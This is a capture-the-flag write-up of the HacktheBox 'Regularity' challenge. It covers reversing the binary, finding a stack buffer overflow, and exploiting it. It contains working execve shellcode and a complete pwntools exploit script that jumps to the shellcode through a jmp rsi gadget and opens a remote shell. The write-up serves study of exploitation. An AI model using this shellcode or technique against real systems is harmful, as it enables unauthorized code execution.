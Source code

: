 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/regularity
---
```


## HacktheBox: Regularity - Write-up

This is a "very easy" challenge in HacktheBox's VIP pwn challenges. It is a basic shellcode+single gadget exploit.

### Reversing

First, we check the filetype:
```
regularity: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```
We are dealing with a statically linked ELF with debugging symbols and no PIE.

Next, let's check the securities:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   13) Symbols	  No	0		0		regularity
```
No canary, no pie, AND an executable stack! We have many avenues for attack with this one.

Running the file, we get some basic output and are prompted for input.
```
Hello, Survivor. Anything new these days?
hello
Yup, same old same old here as well...
```
Since the file is statically linked and the file size is small, I am going to assume this is an exceptinally small binary that we can probably take a peek at with objdump.
```
jake@jake-VirtualBox:~/hackthebox/pwn/regularity/pwn_regularity$ objdump -M intel -d regularity 

regularity:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:	bf 01 00 00 00       	mov    edi,0x1
  401005:	48 be 00 20 40 00 00 	movabs rsi,0x402000
  40100c:	00 00 00 
  40100f:	ba 2a 00 00 00       	mov    edx,0x2a
  401014:	e8 2a 00 00 00       	call   401043 <write>
  401019:	e8 2d 00 00 00       	call   40104b <read>
  40101e:	bf 01 00 00 00       	mov    edi,0x1
  401023:	48 be 2a 20 40 00 00 	movabs rsi,0x40202a
  40102a:	00 00 00 
  40102d:	ba 27 00 00 00       	mov    edx,0x27
  401032:	e8 0c 00 00 00       	call   401043 <write>
  401037:	48 be 6f 10 40 00 00 	movabs rsi,0x40106f
  40103e:	00 00 00 
  401041:	ff e6                	jmp    rsi

0000000000401043 <write>:
  401043:	b8 01 00 00 00       	mov    eax,0x1
  401048:	0f 05                	syscall 
  40104a:	c3                   	ret    

000000000040104b <read>:
  40104b:	48 81 ec 00 01 00 00 	sub    rsp,0x100
  401052:	b8 00 00 00 00       	mov    eax,0x0
  401057:	bf 00 00 00 00       	mov    edi,0x0
  40105c:	48 8d 34 24          	lea    rsi,[rsp]
  401060:	ba 10 01 00 00       	mov    edx,0x110
  401065:	0f 05                	syscall 
  401067:	48 81 c4 00 01 00 00 	add    rsp,0x100
  40106e:	c3                   	ret    

000000000040106f <exit>:
  40106f:	b8 3c 00 00 00       	mov    eax,0x3c
  401074:	31 ff                	xor    edi,edi
  401076:	0f 05                	syscall 
```
The first thing I notice is the lack of function prologues and epilogues. This allows us to use the same stack frame throughout the program's lifetime. 

The binary employs wrappers for the ```write``` and ```read``` syscalls. It looks like that we have a pretty standard buffer overflow in the ```read``` function.
```
  40104b:       48 81 ec 00 01 00 00    sub    rsp,0x100
  401052:       b8 00 00 00 00          mov    eax,0x0
  401057:       bf 00 00 00 00          mov    edi,0x0
  40105c:       48 8d 34 24             lea    rsi,[rsp]
  401060:       ba 10 01 00 00          mov    edx,0x110
  401065:       0f 05                   syscall
  401067:       48 81 c4 00 01 00 00    add    rsp,0x100
  40106e:       c3                      ret
```
First, ```0x100``` bytes are allocated on the stack. Then, we see the registers get setup for a call to ```read```. The authors of the challenge were extremely nice and set the address of the buffer to be read into as the top of the stack. Finally, we see that ```read``` is going to read ```0x110``` bytes into the stack, which means we have 16 bytes of overflow. The next thing to notice is that ```0x100``` bytes are added to the stack followed by a ```ret``` instruction. Since ```ret``` pops the first value off the stack and jumps to that address, we can control execution with ```0x100``` bytes followed by a 8 byte address we want to execute from.

### Pwn

Since we don't see any interesting functions and the stack is executable, let's see if there is a way we can jump to somewhere in our input. If we use ```ropper```, we see that there is a ```jmp rsi``` gadget we can use.
```
0x0000000000401041: jmp rsi; 
```
Since ```rsi``` should be the start of our input, have ```0x100``` bytes of shellcode to work with followed by the address of our ```jmp rsi``` gadget.

Let's put together some basic ```execve``` shellcode that we can use. 
```asm
global main
section .text

main:
	xor rdx, rdx
	push rdx
	mov rbx, 0x68732f2f6e69622f
	push rbx
	mov rdi, rsp
	push 0
	mov rsi, rsp
	mov rax, 59
	syscall
	xor rdi, rdi
	mov rax, 60
	syscall
```
First, we zero out ```rdx``` which is the third argument of ```execve``` (the environment parameter). Next, we push rdx onto the stack to serve as the null terminator for the string we want to push. Next, we move ```0x68732f2f6e69622f``` into ```rbx``` which is the string "/bin//sh" in reverse order. We push that onto the stack and move the address of that string into ```rdi``` which is the first argument for ```execve```. To setup the second parameter (the argv array), we push 0 onto the stack and move the address of the null terminator into ```rsi```. Finally, we move ```0x59``` (the syscall number for ```execve```) into rax and invoke ```syscall```. Note: Since we had extra space, I went ahead and included a call to ```exit``` to ensure that if whatever reason the shellcode fails, the program exits normally.

With our shellcode made, we can assemble it, convert it to a raw binary, and transform the bytes into printable characters to be used in our exploit.
```
jake@jake-VirtualBox:~/hackthebox/pwn/regularity/pwn_regularity$ nasm -f elf64 shellcode.asm
jake@jake-VirtualBox:~/hackthebox/pwn/regularity/pwn_regularity$ objcopy -O binary shellcode.o shellcode
jake@jake-VirtualBox:~/hackthebox/pwn/regularity/pwn_regularity$ xxd -p shellcode | tr -d '\n' | sed 's/\(..\)/\\x\1/g' | fold -w 32
```
Now we just need to make the exploit:
```python
#!/usr/bin/env python3

from pwn import *

e = context.binary = "./regularity"
context.arch = "amd64"

jmp_rsi = 0x0000000000401041

shellcode = b'\x48\x31\xd2\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x6a\x00\x48\x89\xe6\xb8\x3b\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05'

payload = shellcode + b'A'*(0x100 - len(shellcode)) + p64(jmp_rsi)
#p = gdb.debug('./regularity', '''
#                start
#                ''')
#p = process(e)
p = remote('94.237.49.3', 30698)

p.recvline()
p.sendline(payload)
p.interactive()
```
Our exploit builds the payload by starting with our shellcode followed by the correct number of ```A```'s to reach our return address followed by the address of ```jmp rsi```.

Running this exploit gives us a shell which allows us to ```cat``` out the flag!
```
jake@jake-VirtualBox:~/hackthebox/pwn/regularity/pwn_regularity$ python3 exploit.py 
[*] '/home/jake/hackthebox/pwn/regularity/pwn_regularity/regularity'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to 94.237.49.3 on port 30698: Done
[*] Switching to interactive mode
$ ls
flag.txt
regularity
$  
```

Et Voila!
